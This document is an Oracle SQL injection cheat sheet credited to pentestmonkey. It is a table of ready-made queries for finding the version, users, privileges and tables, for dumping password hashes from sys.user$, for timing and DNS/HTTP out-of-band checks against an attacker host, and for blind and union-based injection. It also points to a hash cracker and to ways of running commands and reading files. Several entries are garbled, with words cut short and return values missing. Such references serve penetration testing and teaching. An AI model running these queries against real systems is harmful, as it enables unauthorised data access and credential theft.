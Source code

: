 # All credits to pentestmokey
|Description|Command|
|--- |--- |
|Version|SELECT banner FROM v$version WHERE banner LIKE ‘Oracle%’; SELECT banner FROM v$version WHERE banner LIKE ‘TNS%’; SELECT version FROM v$instance;|
|Comments|SELECT 1 FROM dual — commen; – NB: SELECT statements must have a FROM clause in Oracle so we have to use the dummy table name ‘dual’ when we’re not actually selecting from a table.|
|Current User|SELECT user FROM dual|
|List Users|SELECT username FROM all_users ORDER BY username; SELECT name FROM sys.user$; — priv|
|List Password Hashes|SELECT name, password, astatus FROM sys.user$ — priv, <= 10g.  astatus tells you if acct is locke; SELECT name,spare4 FROM sys.user$ — priv, 11g|
|Password Cracker|checkpwd will crack the DES-based hashes from Oracle 8, 9 and 10.|
|List Privileges|SELECT * FROM session_privs; — current priv; SELECT * FROM dba_sys_privs WHERE grantee = ‘DBSNMP’; — priv, list a user’s priv; SELECT grantee FROM dba_sys_privs WHERE privilege = ‘SELECT ANY DICTIONARY’; — priv, find users with a particular pri; SELECT GRANTEE, GRANTED_ROLE FROM DBA_ROLE_PRIVS;|
|List DBA Accounts|SELECT DISTINCT grantee FROM dba_sys_privs WHERE ADMIN_OPTION = ‘YES’; — priv, list DBAs, DBA roles|
|Current Database|SELECT global_name FROM global_name; SELECT name FROM v$database; SELECT instance_name FROM v$instance; SELECT SYS.DATABASE_NAME FROM DUAL;|
|List Databases|SELECT DISTINCT owner FROM all_tables; — list schemas (one per user)
– Also query TNS listener for other databases.  See tnscmd (services | status).|
|List Columns|SELECT column_name FROM all_tab_columns WHERE table_name = ‘blah’; SELECT column_name FROM all_tab_columns WHERE table_name = ‘blah’ and owner = ‘foo’;|
|List Tables|SELECT table_name FROM all_tables; SELECT owner, table_name FROM all_tables;|
|Find Tables From Column Name|SELECT owner, table_name FROM all_tab_columns WHERE column_name LIKE ‘%PASS%’; — NB: table names are upper case|
|Select Nth Row|SELECT username FROM (SELECT ROWNUM r, username FROM all_users ORDER BY username) WHERE r=9; — gets 9th row (rows numbered from 1)|
|Select Nth Char|SELECT substr(‘abcd’, 3, 1) FROM dual; — gets 3rd character, ‘c’|
|Bitwise AND|SELECT bitand(6,2) FROM dual; — returns ; SELECT bitand(6,1) FROM dual; — returns0|
|ASCII Value -> Char|SELECT chr(65) FROM dual; — returns A|
|Char -> ASCII Value|SELECT ascii(‘A’) FROM dual; — returns 65|
|Casting|SELECT CAST(1 AS char) FROM dual; SELECT CAST(’1′ AS int) FROM dual;|
|String Concatenation|SELECT ‘A’ || ‘B’ FROM dual; — returns AB|
|If Statement|BEGIN IF 1=1 THEN dbms_lock.sleep(3); ELSE dbms_lock.sleep(0); END IF; END; — doesn’t play well with SELECT statements|
|Case Statement|SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END FROM dual; — returns ; SELECT CASE WHEN 1=2 THEN 1 ELSE 2 END FROM dual; — returns 2|
|Avoiding Quotes|SELECT chr(65) || chr(66) FROM dual; — returns AB|
|Time Delay|BEGIN DBMS_LOCK.SLEEP(5); END; — priv, can’t seem to embed this in a SELEC; SELECT UTL_INADDR.get_host_name(’10.0.0.1′) FROM dual; — if reverse looks are slo; SELECT UTL_INADDR.get_host_address(‘blah.attacker.com’) FROM dual; — if forward lookups are slo; SELECT UTL_HTTP.REQUEST(‘http://google.com’) FROM dual; — if outbound TCP is filtered / slo; – Also see Heavy Queries to create a time delay|
|Make DNS Requests|SELECT UTL_INADDR.get_host_address(‘google.com’) FROM dual; SELECT UTL_HTTP.REQUEST(‘http://google.com’) FROM dual;|
|Command Execution|Javacan be used to execute commands if it’s installed.ExtProc can sometimes be used too, though it normally failed for me.|
|Local File Access|UTL_FILE can sometimes be used.  Check that the following is non-null; SELECT value FROM v$parameter2 WHERE name = ‘utl_file_dir’;Java can be used to read and write files if it’s installed (it is not available in Oracle Express).|
|Hostname, IP Address|SELECT UTL_INADDR.get_host_name FROM dual; SELECT host_name FROM v$instance; SELECT UTL_INADDR.get_host_address FROM dual; — gets IP addres; SELECT UTL_INADDR.get_host_name(’10.0.0.1′) FROM dual; — gets hostnames|
|Location of DB files|SELECT name FROM V$DATAFILE;|
|Default/System Databases|SYSTE; SYSAUX|
|Get all tablenames in one string|select rtrim(xmlagg(xmlelement(e, table_name || ‘,’)).extract(‘//text()’).extract(‘//text()’) ,’,') from all_tables –  when using union based SQLI with only one row|
|Blind SQLI in order by clause|order by case when ((select 1 from user_tables where substr(lower(table_name), 1, 1) = ‘a’ and rownum = 1)=1) then column_name1 else column_name2 end — you must know 2 column names with the same datatype|
